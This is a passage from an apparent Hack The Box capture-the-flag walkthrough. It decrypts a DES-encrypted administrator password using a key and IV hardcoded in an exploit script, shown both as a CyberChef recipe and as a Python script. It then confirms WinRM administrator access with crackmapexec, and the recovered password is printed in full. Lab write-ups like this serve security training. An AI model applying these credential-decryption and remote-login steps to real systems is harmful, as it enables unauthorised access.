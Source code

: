 ### Decrypt Password

#### CyberChef

The script shows the key and IV for the DES decryption. [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)DES_Decrypt(%7B'option':'Latin1','string':'7ly6UznJ'%7D,%7B'option':'Latin1','string':'XuVUm5fR'%7D,'CBC','Raw','Raw')&input=T2RoN04zTDlhVlE4L3NyZFpnRzJoSVIwU1NKb0pLR2k) will take care of this very quickly:

![image-20210416095920623](https://0xdfimages.gitlab.io/img/image-20210416095920623.png)

#### Python

Alternatively, it’s not a big jump to modify the Python script from the exploit to something like:

```

#!/usr/bin/env python3

import base64
from des import * #python3 -m pip install des
import sys

try:
        path = sys.argv[1]
except:
        exit("Supply base64-encoded encrypted password as argv1")

def decrypt(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print(f'Decrypted Password: {decrypt(sys.argv[1])}')

```

It no longer needs the JSON parsing, just take the encpryted password and decrypt it (I renamed the `decode` function to `decrypt`, but didn’t change anything else about it). It works:

```

oxdf@parrot$ python3 decrypt.py "Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"
Decrypted Password: kidvscat_admin_@123

```

### WinRM

With this password associated with the administrator username, my first thought is to see if it can be used for WinRM. [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) says yes:

```

oxdf@parrot$ crackmapexec winrm 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
WINRM       10.10.10.237    5985   NONE             [*] None (name:10.10.10.237) (domain:None)
WINRM       10.10.10.237    5985   NONE             [*] http://10.10.10.237:5985/wsman
WINRM       10.10.10.237    5985   NONE             [+] None\administrator:kidvscat_admin_@123 (Pwn3d!)

```
